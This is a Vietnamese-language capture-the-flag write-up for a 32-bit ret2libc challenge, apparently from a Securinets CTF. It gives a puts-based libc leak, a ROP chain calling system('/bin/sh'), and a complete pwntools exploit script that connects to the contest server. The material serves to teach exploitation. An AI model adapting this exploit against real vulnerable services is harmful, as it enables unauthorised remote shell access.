

# ret2libc
## Phân tích
- Một bài ret2libc 32 bit khá khó chịu vì ít khi gặp nó =((
- Cấu trúc khi ROP 32 bit
```
plt
ret
got
```

## Khai thác
### Leak libc
```python
payload = b'\x9f\x90\x04\x08'*17 + p32(exe.plt.puts) + p32(exe.sym.main) + p32(exe.got.puts)
sla(b"solveable?\n", payload)
libc.address = u32(p.recv(4)) - 0x74db0
print(hex(libc.address))
```

### ROP
```python
p.recvuntil(b"solveable?")
payload = b'\x9f\x90\x04\x08'*17 + p32(libc.sym.system) + b'\x9f\x90\x04\x08' + p32(next(libc.search(b"/bin/sh")))
# payload = b"bbbb" + b"a" * 76
sl(payload)
```

## Kết quả

```
#!/usr/bin/python3

from pwn import *

exe = ELF('main_patched', checksec=False)
libc = ELF("libc.so.6")
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+64
                b*puts+168
                b*main+59
                b*main+0
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('pwn.ctf.securinets.tn', 6666)
else:
        p = process(exe.path)

GDB()

payload = b'\x9f\x90\x04\x08'*17 + p32(exe.plt.puts) + p32(exe.sym.main) + p32(exe.got.puts)
sla(b"solveable?\n", payload)
libc.address = u32(p.recv(4)) - 0x74db0
print(hex(libc.address))

p.recvuntil(b"solveable?")
payload = b'\x9f\x90\x04\x08'*17 + p32(libc.sym.system) + b'\x9f\x90\x04\x08' + p32(next(libc.search(b"/bin/sh")))
sl(payload)

p.interactive()
```